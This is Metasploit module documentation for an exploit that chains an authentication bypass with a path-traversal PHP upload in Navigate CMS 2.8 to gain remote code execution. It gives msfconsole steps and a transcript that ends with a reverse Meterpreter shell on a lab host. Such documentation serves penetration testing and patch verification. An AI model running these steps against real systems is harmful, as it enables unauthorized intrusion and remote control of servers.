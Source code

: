 ## Description

This module exploits insufficient sanitization in the database::protect method, of Navigate CMS versions 2.8 and prior, to bypass authentication.
It then uses a path traversal vulnerability in navigate_upload.php that allows authenticated users to upload PHP files to arbitrary locations.
Together these vulnerabilities allow an unauthenticated attacker to execute arbitrary PHP code remotely.

This module was tested against Navigate CMS 2.8.

## Vulnerable Application 

[Navigate CMS 2.8](https://master.dl.sourceforge.net/project/navigatecms/releases/navigate-2.8r1302.zip)

## Verification Steps

1. Install Navigate CMS
2. Start `msfconsole`
3. `use exploit/multi/http/navigate_cms_rce`
4. `set RHOST <rhost>`
5. `check`
6. You should see `The target appears to be vulnerable.`
7. `exploit`
8. You should get a meterpreter session

## Scenarios

### Navigate CMS on Ubuntu 18.04

```
msf5 > use exploit/multi/http/navigate_cms_rce
msf5 exploit(multi/http/navigate_cms_rce) > set RHOST 192.168.178.45
RHOST => 192.168.178.45
msf5 exploit(multi/http/navigate_cms_rce) > check
[*] 192.168.178.45:80 The target appears to be vulnerable.
msf5 exploit(multi/http/navigate_cms_rce) > exploit

[*] Started reverse TCP handler on 192.168.178.35:4444 
[+] Login bypass successful
[+] Upload successful
[*] Triggering payload...
[*] Sending stage (37775 bytes) to 192.168.178.45
[*] Meterpreter session 1 opened (192.168.178.35:4444 -> 192.168.178.45:52720) at 2018-09-26 22:24:59 +0200

meterpreter > 
```
